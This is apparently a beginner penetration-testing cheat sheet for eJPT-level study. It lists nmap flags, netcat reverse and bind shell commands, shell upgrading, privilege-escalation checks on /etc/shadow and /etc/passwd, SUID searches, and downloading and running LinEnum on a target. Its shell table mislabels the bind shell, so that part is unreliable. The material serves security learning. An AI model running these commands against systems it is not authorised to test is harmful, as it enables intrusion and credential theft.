 # About this Cheat Sheet. (For beginners)
I made this Cheat Sheet with no other purpose than to help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to making this file so I can make faster searchs according to my needs. This is a beginner Cheat Sheet and the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.

This readme was corrected to a perfect English for [@chetstink](https://twitter.com/chetstink "Twitter")

You can find me in twitter here. [@0x1_dev](https://twitter.com/0x1_dev "Twitter")


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number endPort-number>`   | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan everytarget host provided.                       |

There are a lot of more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connect to us. (We set up a listener before they connect to us.)  |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Not resolve hostnames or use DNS                                         |
| `-p`               |  The port that we will sue                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilage Escalation

Understanding the two main privilage escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used for hijack another user with the same privilages. Some users even if they're not admin can have SUID files, or they are allowed to use sudo for differents files or programs.   |
| Vertical PrivEsc | You just take an administrator account. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") for enumerate privilage escalation. Below we can find a table for things we should check for privilage escalation in spite of LinEnum will do the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second eassier one in case we can't recreate the script by coping and paste it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
